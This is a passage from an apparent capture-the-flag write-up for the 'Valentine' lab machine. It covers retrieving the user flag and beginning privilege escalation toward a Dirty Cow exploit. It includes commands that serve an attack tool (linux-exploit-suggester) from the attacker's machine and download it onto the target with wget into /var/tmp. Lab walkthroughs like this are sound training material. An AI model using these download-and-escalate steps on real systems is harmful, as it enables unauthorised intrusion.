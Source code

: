
To find the user flag, we can use the common method of navigating to home and using find:

![Untitled](Valentine%20951cc2e3a0a847249981b494aef933be/Untitled%2016.png)

This gives us the user flag.

# Root Flag

## Route 1: Dirty Cow

To escalate privileges, we can first use linux-exploit-suggester.

We have to download the script if we do not have it yet, and navigate to the folder containing the script, before setting a http server with the following command.

```powershell
python3 -m http.server 9000
```

![Untitled](Valentine%20951cc2e3a0a847249981b494aef933be/Untitled%2017.png)

Next, we check if the target machine has curl or wget with the which command, and it turns out that we have wget:

![Untitled](Valentine%20951cc2e3a0a847249981b494aef933be/Untitled%2018.png)

So we can run navigate to any world writable directory, in this case we will use /var/tmp, and run the following command:

```bash
wget 10.10.17.90:9000/linux-exploit-suggester-2.pl
```

![Untitled](Valentine%20951cc2e3a0a847249981b494aef933be/Untitled%2019.png)
